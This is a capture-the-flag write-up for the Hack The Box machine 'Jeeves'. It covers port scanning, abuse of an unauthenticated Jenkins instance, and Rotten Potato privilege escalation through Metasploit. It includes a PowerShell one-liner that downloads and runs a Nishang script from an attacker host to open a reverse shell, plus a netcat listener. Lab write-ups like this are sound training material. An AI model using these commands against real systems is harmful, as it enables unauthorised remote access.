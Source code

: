 ```yaml
---
description: https://www.hackthebox.eu/home/machines/profile/114
---
```


# Jeeves

## Nmap

I Started off scanning all ports and then a done a more intense scan on the ports found as per below:

```
nmap 10.10.10.63 -p- 

PORT      STATE SERVICE
80/tcp    open  http                                                                                                                                                          
135/tcp   open  msrpc                                                                                                                                                         
445/tcp   open  microsoft-ds                                                                                                                                                  
50000/tcp open  ibm-db2                                                                                                                                                       
                                                                                                                                                                                                                                                                                                                             
nmap 10.10.10.63 -p 80,135,445,50000 -A -T4
                                                                                                                                                                                                                                           
PORT      STATE SERVICE      VERSION                                                                                                                                                                                                       
80/tcp    open  http         Microsoft IIS httpd 10.0                                                                                                                                                                                      
| http-methods:                                                                                                                                                                                                                            
|_  Potentially risky methods: TRACE                                                                                                                                                                                                       
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                                                                                   
|_http-title: Ask Jeeves                                                                                                                                                                                                                   
135/tcp   open  msrpc        Microsoft Windows RPC                                                                                                                                                                                         
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)                                                                                                                                                  
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m20s, deviation: 0s, median: 5h00m19s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-02T00:35:20
|_  start_date: 2020-10-01T00:50:42
```

I first tried `enum4linux` on SMB and did not get any valid hits for null session. I next moved onto port 80 whilst kicking off `gobuster` and `nikto` on port 80 and port 50000 since it has been reported as HTTP

![Kicking off multiple scans on port 80 and 50000](<../../../.gitbook/assets/image (175) (1).png>)

## Port 80

Port 80 directs us over to a AskJeeves web page.

![Port 80](<../../../.gitbook/assets/image (176) (1).png>)

Entering a value into the field and searching produces a error page which on further inspection appears to be an image. Searching using potential SQL injections or any other search parameter produces the same result.

![](<../../../.gitbook/assets/image (177) (1).png>)

When viewing page source we get the following:

![](<../../../.gitbook/assets/image (178) (1).png>)

Selecting "jeeves.PNG" takes us to the above image. Based on this I will not be spending anymore time on port 80 as we have still not inspected port 50000.

## Port 50000

Heading over to Port 50000 we land on the following page:

![Port 50000](<../../../.gitbook/assets/image (179) (1).png>)

Clicking on the link takes us away to https://eclipse.org/jetty/

`gobuster` reveals a directory of /askjeeves/ on this port.

![/askjeeves/](<../../../.gitbook/assets/image (181) (1).png>)

Looks like we have unauthenticated access to Jenkins. As we have freedom of Jenkins we can select the "create new jobs" link. From here give the project a name and select "freestyle project".

![](<../../../.gitbook/assets/image (182) (1).png>)

On the next screen head down to "Build" and then select "Execute Windows batch command".

![](<../../../.gitbook/assets/image (183) (1).png>)

On this next part we are going to use nishang Invoke-PowershellTcp to get a reverse shell on the machine.

run the following with root permissions to install `nishang`

```
sudo apt-get install nishang
```

After install we can find the nishang files at `/usr/share/nishang/shells` Start a python server in the shells directory as we will need to pull one of the files to gain shell.

![](<../../../.gitbook/assets/image (184) (1).png>)

Set up a `netcat` listener. In this example I will be using port 443.

```
sudo nc -lvp 80
```

We can now insert the following command into the Jenkins batch command box. Changing IP and port where appropriate.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

![](<../../../.gitbook/assets/image (185) (1).png>)

After you have completed this save the project at the bottom of the screen and then on the following screen select "Build now"

![](<../../../.gitbook/assets/image (186) (1).png>)

You should notice the python server receives a GET request for the file specified with a HTTP code 200. If you have incorrectly spelt the file you will receive a code 404.

![](<../../../.gitbook/assets/image (187) (1).png>)

`netcat` should now pick up the shell and get you on the system as a low privilege account.

![low privilege shell.](<../../../.gitbook/assets/image (188).png>)

From here we can grab the user.txt flag before moving onto privilege escalation.

![](<../../../.gitbook/assets/image (189).png>)

## Privilege Escalation

For privilege escalation we should start with the normal system enumeration. We can run system info and run this against `Windows_exploit_suggester.py`.

I have covered Windows\_exploit\_suggester usage here if you need to know how to use it:

{% embed url="https://app.gitbook.com/@akimboviper/s/everything-windows/v/master/tools/enumeration/windows-exploit-suggester" %}

After going through the results of the python script what sticks out to us is the following exploit:

![](<../../../.gitbook/assets/image (190) (1).png>)

FoxGlove Security have done a fantastic write up on the exploit which can be read here.

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %}

We can run the command `whoami /priv` and see if we have any of the correct privileges to perform the exploit. the privilege `SeImpersonatePrivilege` will allow us to run the exploit for MS16-075. This privilege is usually given to service accounts.

![](<../../../.gitbook/assets/image (191) (1).png>)

We will be using `metasploi`t for the escalation and as such we will need to upgrade our shell to a meterpreter shell. Open `msfconsole` and search for `multi/script/web_delivery` set the correct options.

![](<../../../.gitbook/assets/image (192) (1).png>)

Run the module and it should create some Powershell code which needs to be run on the victim machine. The web\_delivery module will keep a listener open waiting for when the code is run. When we execute the code on the victim machine this should give us a meterpreter shell back (depend on the payload you selected).

![Generating the payload.](<../../../.gitbook/assets/image (193) (1).png>)

![Running the payload on the victim machine](<../../../.gitbook/assets/image (194) (1).png>)

After running we should receive a shell back in `msfconsole`.

![meterpreter shell](<../../../.gitbook/assets/image (195).png>)

We can now run a search for the exploit in `msfconsole` after back grounding our meterpreter session.

![](<../../../.gitbook/assets/image (196) (1).png>)

Select options 1 for the juicy exploit and set the payload options. When you have filled out the correct information run the exploit and you should land a shell as system.

![NT Authority\System](<../../../.gitbook/assets/image (197).png>)

From here we should be able to grab root.txt?

![](<../../../.gitbook/assets/image (198) (1).png>)

Or not... Looks like we will have to look elsewhere.

After some time and looking literally everywhere I could not find the root flag. I eventually turned to the HTB forums for hints and eventually came to the right answer with the command `Dir /R` this command allows you to view alternative datastream (ADS) files.

![root flag](<../../../.gitbook/assets/image (199) (1).png>)

After retrieving root I did a little research on finding ADS files as I do not believe I would have found this without a hint. Malwarebytes have done a great blog post on the subject and have provided some good methods for over coming this.

{% embed url="https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/" %}
